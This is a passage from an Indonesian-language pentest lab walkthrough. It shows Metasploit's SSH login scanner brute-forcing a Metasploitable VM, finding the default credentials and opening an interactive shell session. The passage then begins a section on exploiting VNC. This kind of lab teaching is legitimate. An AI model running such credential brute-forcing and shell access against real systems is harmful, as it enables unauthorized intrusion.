 ```
[+] 192.168.1.22:22 - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] SSH session 1 opened (192.168.1.21:35813 -> 192.168.1.22:22) at 2024-12-16 23:11:46 +0800
[-] 192.168.1.22:22 - Failed: 'msfadmfm:msfadmii'
[-] 192.168.1.22:22 - Failed: 'msfadmfm:msfadmif'
...
[-] 192.168.1.22:22 - Failed: 'msfadmfs:'
[-] 192.168.1.22:22 - Failed: 'msfadmfi:'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Dari output diatas ketika metasploit mendapatkan username dan password ssh, metasploit akan membuka session baru, kita bisa melihat session yang terbuka dan bisa langsung digunakan.

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information  Connection
  --  ----  ----         -----------  ----------
  1         shell linux  SSH ucup @   192.168.1.21:35813 -> 192.168.1.22:22 (192.168.1.22)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1

[*] Starting interaction with 1...
```

Banggg!!!!. Berhasil.

#### Exploit VNC

Jika kita kembali pada hasil scan nessus sebelumnya, terdapat vurnerability pada VNC Server seperti gambar dibawah ini:
